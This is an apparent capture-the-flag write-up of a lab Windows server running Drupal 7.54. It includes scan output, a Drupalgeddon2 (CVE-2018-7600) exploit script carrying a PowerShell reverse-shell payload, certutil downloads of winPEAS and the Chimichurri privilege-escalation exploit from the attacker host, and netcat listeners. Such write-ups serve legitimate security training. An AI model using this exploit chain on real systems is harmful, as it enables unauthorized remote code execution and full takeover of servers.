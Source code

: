 
## Full TCP Port Scan (Aggressive) [230s]

```bash
sudo nmap -Pn -p- -A -T4 10.129.117.10
```

```text
Starting Nmap 7.95 (https://nmap.org) at 2025-03-18 12:40 EDT
Nmap scan report for 10.129.117.10
Host is up (0.15s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to Bastard | Bastard
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   154.12 ms 10.10.16.1
2   217.12 ms 10.129.117.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 230.40 seconds
```

## Enumeration

### Port 80 (HTTP - Drupal 7.54)
- Drupal version confirmed via `/CHANGELOG.txt` 
- Admin user identified on login page
- Robots.txt reveals sensitive paths
- Vulnerable to CVE-2018-7600 (Drupalgeddon2) 

```bash
curl -s http://10.129.117.10/CHANGELOG.txt | head -n 5
```
```text
Drupal 7.54, 2017-02-01
- Modules are now able to define theme engines (API addition:
  https://www.drupal.org/node/2826480).
- Logging of searches can now be disabled (new option in the administrative
  interface).
```

## Exploitation

### Initial Access via CVE-2018-7600
Modified exploit script from [FireFart's GitHub](https://github.com/firefart/CVE-2018-7600):
```python
#!/usr/bin/env python3
import requests
import re

HOST="http://10.129.117.10/"
# PowerShell reverse shell payload (Base64 encoded)
payload = "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdw..."  

get_params = {
    'q':'user/password',
    'name[#post_render][]':'passthru',
    'name[#markup]':payload,
    'name[#type]':'markup'
}
post_params = {'form_id':'user_pass', '_triggering_element_name':'name'}
r = requests.post(HOST, data=post_params, params=get_params)

m = re.search(r'<input type="hidden" name="form_build_id" value="([^"]+)" />', r.text)
if m:
    found = m.group(1)
    get_params = {'q':'file/ajax/name/#value/' + found}
    post_params = {'form_build_id':found}
    r = requests.post(HOST, data=post_params, params=get_params)
    print(r.text)
```

Start listener:
```bash
nc -lvnp 1234
```

Execute exploit:
```bash
python3 drupalgeddon2.py
```

Reverse shell connection:
```text
connect to [10.10.16.27] from (UNKNOWN) [10.129.117.10] 50657
PS C:\inetpub\drupal-7.54> whoami
nt authority\iusr
```

### User Flag
Located in dimitris' desktop:
```powershell
PS C:\inetpub\drupal-7.54> type C:\Users\dimitris\Desktop\user.txt
8ac10b92...
```

## Privilege Escalation

### System Analysis
- Windows Version: Server 2008 R2 (6.1.7600) 
- Vulnerable to MS10-059 (Chimichurri) 

### WinPEAS Execution
Transfer and run WinPEAS:
```powershell
certutil -urlcache -f http://10.10.16.27:8888/winPEAS.bat win.bat
Start-Process -FilePath .\win.bat -RedirectStandardOutput C:\inetpub\drupal-7.54\winpeas.txt -NoNewWindow -Wait
```

Retrieve results:
```bash
wget http://10.129.117.10/winpeas.txt
```

### Privilege Escalation Execution
Transfer Chimichurri exploit:
```powershell
certutil -urlcache -f http://10.10.16.27:8888/Chimichurri.exe chimi.exe
```

Start elevated listener:
```bash
nc -lvnp 4444
```

Execute exploit:
```powershell
Start-Process -FilePath ".\chimi.exe" -ArgumentList "10.10.16.27 4444"
```

### Root Shell
```text
connect to [10.10.16.27] from (UNKNOWN) [10.129.117.10] 50716
Microsoft Windows [Version 6.1.7600]
C:\inetpub\drupal-7.54> whoami
nt authority\system
```

### Root Flag
Located in Administrator's desktop:
```cmd
C:\Users\Administrator\Desktop> type root.txt
9af71******************
```
